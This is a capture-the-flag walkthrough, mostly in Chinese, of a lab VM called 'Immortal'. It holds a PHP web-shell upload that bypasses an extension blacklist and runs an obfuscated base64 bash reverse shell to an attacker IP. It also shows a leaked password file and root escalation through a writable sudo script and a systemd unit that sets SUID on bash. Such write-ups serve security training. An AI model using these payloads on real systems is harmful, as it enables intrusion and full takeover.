

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/immportal  
❯ nmap 192.168.55.17 -sV -A -p- 

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.55.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 0        0             504 Feb 27  2024 message.txt
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 e8:79:ad:8b:d1:a8:39:1b:ac:ed:52:ef:d0:22:0e:eb (RSA)
|   256 65:df:6d:1d:49:11:bd:f3:2f:fa:10:0c:3b:48:69:39 (ECDSA)
|_  256 f6:b7:bf:cf:a5:d5:1b:26:4e:13:08:31:07:d5:79:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: Password
|_http-server-header: Apache/2.4.56 (Debian)
```

## Own www-data


发现密码是：**santiago**

进入后得到一个新的**php**

```
Message to all.
I'm glad you made it, I knew you would guess the password, it's the one we always used, although Boyras recommended us to stop using it because "it was in rockyou". 
By the way guys, you can still upload messages to the server from this new path -> upload_an_incredible_message.php
Saying goodbye very happy, David
```

进入后可以上传文件到**/chat**目录

并且发现**phtml**可以绕过黑名单




```
Content-Disposition: form-data; name="file"; filename="321.phtml"
Content-Type: text/plain

GIF89a
<?php system("printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC41NS40LzQ0NDQgMD4mMSkgJg==|base64 -d|bash");?>
```


这里可以直接读取到**user.txt**


## Own drake

发现了一个密码文件

```
www-data@Immortal:/home/drake/...$ ls -al
total 12
drwxr-xr-x 2 drake drake 4096 Feb 27  2024 .
drwxr-xr-x 4 drake drake 4096 Feb 29  2024 ..
-rw-r--r-- 1 drake drake  134 Feb 27  2024 pass.txt
www-data@Immortal:/home/drake/...$ cat pass.txt 
netflix : drake123
amazon : 123drake
shelldred : shell123dred (f4ns0nly)
system : kevcjnsgii
bank : myfavouritebank
nintendo : 123456
```

其中**system**的密码就是**drake**的密码

## Own eric

```
drake@Immortal:~/...$ sudo -l
Matching Defaults entries for drake on Immortal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User drake may run the following commands on Immortal:
    (eric) NOPASSWD: /usr/bin/python3 /opt/immortal.py
```

查看具体内容

```
drake@Immortal:~/...$ ls -al /opt/
total 16
drwxr-xr-x  2 root root 4096 Feb 28  2024 .
drwxr-xr-x 18 root root 4096 Feb 27  2024 ..
-rw-rw-rw- 1 root root  147 Feb 28  2024 immortal.py
-rw-r--r-- 1 root root   36 Feb 28  2024 immortal.txt
drake@Immortal:~/...$ cat /opt/immortal.py 
a = input(str("Do you want to be immortal: "))

if a.lower() == "yes" or a.lower() == "no":
   print("Bad answer")
else:
   print("Are you sure?")
```

发现可以修改文件内容

```
drake@Immortal:/opt$ cat immortal.py 
import os

os.system("bash -p")
```

## Root

```
eric@Immortal:~$ sudo -l
Matching Defaults entries for eric on Immortal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eric may run the following commands on Immortal:
    (root) NOPASSWD: sudoedit /etc/systemd/system/immortal.service
    (root) NOPASSWD: /usr/bin/systemctl start immortal.service
    (root) NOPASSWD: /usr/bin/systemctl stop immortal.service
    (root) NOPASSWD: /usr/bin/systemctl enable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl disable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl daemon-reload
```

可以先用**sudoedit**修改内容为

```
[Unit]
Description=Immortal Service
After=network.target

[Service]
Type=oneshot
ExecStart=chmod u+s /bin/bash

[Install]
WantedBy=multi-user.target
```


## Summary

比较简单，不多说了
